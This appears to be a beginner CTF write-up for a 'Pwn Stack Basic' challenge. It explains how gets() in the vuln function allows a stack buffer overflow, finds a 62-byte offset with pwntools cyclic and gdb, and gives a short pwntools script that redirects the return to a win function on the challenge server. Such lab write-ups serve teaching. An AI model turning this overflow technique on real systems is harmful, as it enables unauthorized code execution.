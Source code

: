 # Pwn Stack Basic

## Description

A win return question

## Analysis

The vulnable function is vuln, because the gets is dangerous. It will cause buf overflow and overwrite things.

The code also show our target is win function.

The approach will be overwrite the return to make the vuln return to win function.

![image](https://github.com/ZHallen122/CTF-Practice-WriteUp/assets/106571949/2178ca9f-406c-4474-8ebd-5fcf55a33ced)

## Solution

Lets use gdb, and first check the position of the win
![image](https://github.com/ZHallen122/CTF-Practice-WriteUp/assets/106571949/f2fb9eaa-6ad1-49fb-8296-ebb391f47a73)

Then run it '(gdb) run'

Need to use pwntool cyclic to generate unic string, because we will check what we overwrite and those unique string will help identify

```
import pwn

pattern = pwn.cyclic(100)  # creates a unique pattern of 100 characters
print(pattern)
```
it will generate this b'aaaabaaacaaadaaaeaaafaaagaa....'

And input it. It will crush the program because we successful overwrite something
![image](https://github.com/ZHallen122/CTF-Practice-WriteUp/assets/106571949/137a0b94-886e-4957-b4a1-aff52c257998)

Now lets check registers, and use the value in eip

![image](https://github.com/ZHallen122/CTF-Practice-WriteUp/assets/106571949/bb4b6be3-3ab4-42df-8d90-11ab3b8ffd5b)

Use the pwntool cyclic_find to know the distance of overwrite return
```
import pwn

offset = pwn.cyclic_find(0x61716161) # use the eip value 
print(offset)

```
The result will be 62, Lets build our payload
```
import pwn

io = pwn.remote(challenge address)

io.sendline()

payload = b"A"*62 + pwn.p32(0x08048526)

io.sendline(payload)
io.interactive()
```

The Flag ！
![image](https://github.com/ZHallen122/CTF-Practice-WriteUp/assets/106571949/e89ebb9b-9896-4ebe-a074-d0dd264468d3)


Can also use ghidra
![image](https://github.com/ZHallen122/CTF-Practice-WriteUp/assets/106571949/e846c80a-c79e-4d2c-845f-81f1f779130c)

## Conclusion
